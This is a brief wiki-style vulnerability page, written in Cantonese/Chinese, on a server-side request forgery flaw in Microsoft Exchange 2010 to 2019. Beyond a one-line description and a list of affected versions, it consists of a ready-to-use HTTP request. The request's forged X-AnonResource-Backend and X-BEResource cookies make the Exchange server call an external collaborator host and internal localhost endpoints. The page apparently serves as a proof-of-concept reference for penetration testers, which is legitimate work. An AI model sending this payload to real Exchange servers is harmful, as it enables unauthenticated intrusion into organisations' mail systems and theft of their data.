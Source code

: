 <languages />

漏洞簡介
--------

Exchange服務器端請求偽造（SSRF）漏洞，利用呢個漏洞嘅攻擊者可以發送任意HTTP請求並通過Exchange Server進行身份驗證。

影響範圍
--------

Microsoft Exchange Server: 2010

Microsoft Exchange Server: 2013

Microsoft Exchange Server: 2016

Microsoft Exchange Server: 2019

SSRF
----

    GET /owa/auth/x.js HTTP/1.1
    Host: 0.0.0.0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
    Cookie: X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
    Accept-Language: en
    Connection: close

[檔案:Ssrf.jpg](檔案:Ssrf.jpg "wikilink")